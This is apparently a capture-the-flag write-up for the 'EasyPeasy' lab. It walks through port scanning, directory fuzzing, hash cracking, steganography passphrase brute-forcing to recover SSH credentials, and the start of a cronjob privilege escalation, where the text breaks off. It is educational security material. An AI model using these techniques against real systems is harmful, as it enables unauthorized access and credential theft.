## TL;DR

We find first flag inside hidden folder of nginx, second flag inside `robots.txt` of the apache service. Third flag inside `/n0th1ng3ls3m4tt3r`, was decode using `base62`.
Then, we find user credentials inside `binarycodepixabay.jpg`, after using `stegcracker` to find the passphrase, and `steghide` to get the hidden password. We login using `boring` username and the password we found, and get user flag, which is encrypted in `ROT13`.
Lastly we get root shell using vulnerable cronjob task, the file `/var/www/.mysecretcronjob.sh`.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



We can see port `80` which holds nginx service behind, port `6498` which holds ssh, and port `65524` which holds apache web server.
```bash
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
|_http-server-header: Apache/2.4.43 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Find flag 1 inside hidden folder on nginx service

I started with `gobuster`, and find the dir `/hidden/`.


```bash
┌──(agonen㉿kali)-[~/thm/EasyPeasy]
└─$ gobuster dir -u http://$target/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt          
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.69.104/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/hidden               (Status: 301) [Size: 169] [--> http://10.10.69.104/hidden/]
```

As we can see, it has this creepy image, but nothing else in the source code.



Let's keep enumerating, this time on the dir `/hidden`. apparently `ffuf` is much faster than `gobuster`, okay, I might start using this from now on...



Anyway, we found the endpoint `whatever`.

```bash
┌──(agonen㉿kali)-[~/thm/EasyPeasy]
└─$ ffuf -u "http://$target/hidden/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -fw 47

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.69.104/hidden/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 47
________________________________________________

whatever                [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 80ms]
```

We reach this page, which has the title "dead end":


However, when viewing with Burp, we can detect encoded message, which is the first flag.

`ZmxhZ3tmMXJzN19mbDRnfQ==` -> `flag{f1rs7_fl4g}`.



### Find flag 2 on robots.txt at apache service 

After reaching dead end on port `80`, we now move to port `65524`, to the apache web server there.

We can use `ffuf` to find endpoint by endpoint, we'll start from root.



```bash
┌──(agonen㉿kali)-[~/thm/EasyPeasy]
└─$ ffuf -u "http://$target:65524/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.99.225:65524/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 96ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 96ms]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 96ms]
index.html              [Status: 200, Size: 10818, Words: 3441, Lines: 371, Duration: 84ms]
robots.txt              [Status: 200, Size: 153, Words: 13, Lines: 7, Duration: 104ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 91ms]
:: Progress: [4750/4750] :: Job [1/1] :: 282 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

We can see `robots.txt` and `index.html`.



```bash
┌──(agonen㉿kali)-[~/thm/EasyPeasy]
└─$ curl http://10.10.99.225:65524/robots.txt
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

I tried to crack `a18672860d0510e5ab6699730763b250`, which is md5 hash, using [https://crackstation.net/](https://crackstation.net/), but it didn't find anything.

Then, I moved to [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash), which worked, and gave us the second flag. 



```bash
a18672860d0510e5ab6699730763b250:flag{1m_s3c0nd_fl4g}
```


### Find flag 3 and enumerate /n0th1ng3ls3m4tt3r



From first glance it looks like a default apache page, however, I can detect several strange things at the source code:

First, we can find this. It looks like `ObsJmP173N2X6dOrAgEAL0Vu1` was decoded with base64, but I checked and it isn't. 

So, I tried other base?? decodings, using [https://gchq.github.io/CyberChef/#recipe=From_Base62('0-9A-Za-z')&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1](https://gchq.github.io/CyberChef/#recipe=From_Base62('0-9A-Za-z')&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1).

```html
<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
```

Then, I found out that it was encode in `base62`, and the secret message is `/n0th1ng3ls3m4tt3r`.



We'll enumerate this endpoint in a moment, but before, I also found this Flag3:



```bash
Fl4g 3 : flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

It looks like there is some md5 hash inside the flag, let's use [https://crackstation.net/](https://crackstation.net/) to crack it:



So, `9fdafbd64c47471a8f54cd3fc64cd312` is `candeger`.

### Find ssh credentials inside binarycodepixabay.jpg

Now, let's go back to our new endpoint `/n0th1ng3ls3m4tt3r`.



It looks cool, but i can't find anything except this strange line in the source code:
```html
<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
```

Next, we notice this `binarycodepixabay.jpg` image, on the page. 
I downloaded this and tried to find hidden content using `steghide` util

```bash
┌──(agonen㉿kali)-[~/thm/EasyPeasy]
└─$ steghide --info binarycodepixabay.jpg                        
"binarycodepixabay.jpg":
  format: jpeg
  capacity: 4.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```

As we can see, it requires some password. Luckily we get the attachment file `easypeasy_1596838725703.txt`.

We can use `stegcracker` to crack the password.



```bash
┌──(agonen㉿kali)-[~/thm/EasyPeasy]
└─$ stegcracker binarycodepixabay.jpg easypeasy_1596838725703.txt 
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2025 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'binarycodepixabay.jpg' with wordlist 'easypeasy_1596838725703.txt'..
Successfully cracked file with password: mypasswordforthatjob
Tried 3649 passwords
Your file has been written to: binarycodepixabay.jpg.out
mypasswordforthatjob
```

The output was saved to `binarycodepixabay.jpg.out`, we can do it on our own using `steghide`, and supplying the password `mypasswordforthatjob`.

```bash
┌──(agonen㉿kali)-[~/thm/EasyPeasy]
└─$ cat binarycodepixabay.jpg.out         
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

Okay, we got the username `boring` and this long string. 
Using [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/#recipe=From_Binary('Space',8)&input=MDExMDEwMDEgMDExMDAwMTEgMDExMDExMTEgMDExMDExMTAgMDExMTAxMTAgMDExMDAxMDEgMDExMTAwMTAgMDExMTAxMDAgMDExMDAxMDEgMDExMDAxMDAgMDExMDExMDEgMDExMTEwMDEgMDExMTAwMDAgMDExMDAwMDEgMDExMTAwMTEgMDExMTAwMTEgMDExMTAxMTEgMDExMDExMTEgMDExMTAwMTAgMDExMDAxMDAgMDExMTAxMDAgMDExMDExMTEgMDExMDAwMTAgMDExMDEwMDEgMDExMDExMTAgMDExMDAwMDEgMDExMTAwMTAgMDExMTEwMDEK), we can find the password `iconvertedmypasswordtobinary`.



We got the credentials:
```bash
boring:iconvertedmypasswordtobinary
```

These are the credentials for the `ssh` service, remember the port is `6498`.

```bash
┌──(agonen㉿kali)-[~/thm/EasyPeasy]
└─$ ssh boring@$target -p 6498
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized              **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.99.225's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ 
```



### Find user flag and decrypt using rot13

We can find this user flag:
```bash
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```
However, it's rotated. We can use [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=c3ludHthMGp2Z2YzM3pmYTBlejR5fQo) again, to achieve `ROT13` and get the flag.



So, the user flag is:
```bash
flag{n0wits33msn0rm4l}
```

### Privilege Escalation to Root

We first execute `peass_ng`, using the command in `penelope`:
```bash
run peass_ng
```

We can find this interesting cronjob:



Okay, let's check this file `/var/www/.mysecretcronjob.sh`:
```bash
